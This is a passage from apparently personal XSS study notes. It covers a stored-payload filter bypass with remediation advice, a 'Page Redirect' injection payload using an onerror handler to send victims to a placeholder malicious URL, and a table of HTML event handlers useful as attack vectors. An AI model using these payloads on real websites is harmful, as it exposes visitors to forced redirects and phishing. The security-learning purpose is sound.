   ~~~

3. A prompt pops up with a message after I submit (store) the payload in the comment section, which indicates the filter mechanism (`replace()` function) was bypassed and the application is still vulnerable to XSS."

</details>

**Suggestion**: Make the escaping correct (use [global replacements or replaceAll/regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#description)), deploy a strict [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline handlers, and protect cookies (HttpOnly/SameSite) to reduce impact.

-

</details>

### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
   ~~~
   src=x onerror="window.location.href='<$url>'"
   ~~~

### HTML Events
<details markdown="1">
<summary>Click me to reveal the chart of HTML events</summary>

| Event | Trigger Condition | Elements | Notes |
| :------ | :------ | :------ | :------ |
| onmouseover | When mouse pointer moves over an element | Most HTML elements including input | Used for hover interaction |
| onmouseout | When mouse pointer leaves an element | Most HTML elements including input | |
| onmousedown | When mouse button pressed over an element | Most elements | |
| onmouseup | When mouse button released over an element | Most elements | |
| onclick | When user clicks on an element | Most elements | Commonly used event |
| onfocus | When element receives focus (tab, click, or programmatic) | Input, textarea, select | Particularly useful for inputs |
| onblur | When element loses focus | Input, textarea, select | |
| onchange | When element's value is changed and the control loses focus | Input, select, textarea | Fires after commit of the change |
| oninput | When the user modifies the value | Input, textarea | Fires immediately as value changes |
| onerror | When loading of resource fails | img, script, iframe, media tags | Does not fire on input elements |
| onload | When resource loads successfully | body, img, iframe, script, media | Does not fire on input elements |
| onsubmit | When form is submitted | form element | |
| onkeydown | When a key is pressed | Most elements | |
| onkeyup | When a key is released | Most elements | |
  
</details>
